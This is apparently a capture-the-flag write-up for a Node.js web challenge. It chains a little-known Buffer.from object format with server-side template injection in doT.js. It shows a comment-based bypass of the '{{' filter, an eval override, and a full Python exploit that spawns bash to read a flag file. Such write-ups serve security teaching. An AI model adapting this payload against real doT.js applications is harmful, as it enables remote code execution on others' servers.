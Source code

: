 # Hello from 2025

## Description
Happy new year!
Please test on your local machine before attempting on remote.

## Writeup

The Buffer.from method in Node.js accepts various argument types. Although it's not explicitly documented, one format it supports is:
```js
// <Buffer 61 62 63>
Buffer.from({
    type: "Buffer",
    data: [0x61, 0x62, 0x63]
})
```
(See: https://github.com/nodejs/node/blob/413975a580429585fbbf1e6d3bf55179b2b1e075/lib/buffer.js#L537)
Using the `/now` endpoint, we can determine the format for `new Date().toString()`. This allows us to create an object for `Buffer.from(user)` that matches the output of `Buffer.from(new Date('2025-01-01T00:00:00'))`.

With this setup, we can trigger SSTI in doT.js. doT.js templates support arbitrary code execution with the `{{<expression>}}` syntax. However, `{{`, and `}}` are restricted.

Examining the doT.js code, we see that `/*...*/` are removed before processing. This means we can bypass the restriction using `{/**/{<expression>}/**/}`

To execute a function without using `(` or `)`, override `escapeHTML` by `{{=escapeHTML=eval}}`and call it by `{{!it.x}}`.

https://github.com/olado/doT/blob/031d3bb7520eed6b93886df2b650b7fce12a7007/doT.js#L98

This allows for RCE. Here's the full exploit.

```python
import requests

URL = "http://localhost:1337/"

r = requests.get(URL + "now")
print(r.text)

cmd = 'cat /flag-*'
data = {
    "type": "Buffer",
    "data": list("Wed Jan 01 2025 00:00:00 GMT+0000 (Coordinated Universal Time)".encode()), 
    "template": "{/**/{=encodeHTML=eval}/**/}{/**/{!it.x}/**/}",
    "x": """process.binding('spawn_sync').spawn({
    file: 'bash',
    args: ['bash','-c', '%s'], 
    stdio: [
        { type: 'pipe', readable: true, writable: true },
        { type: 'pipe', readable: true, writable: true }
    ],
}).output + ''""" % cmd
}
r = requests.post(URL, json=data)
print(r.text)
```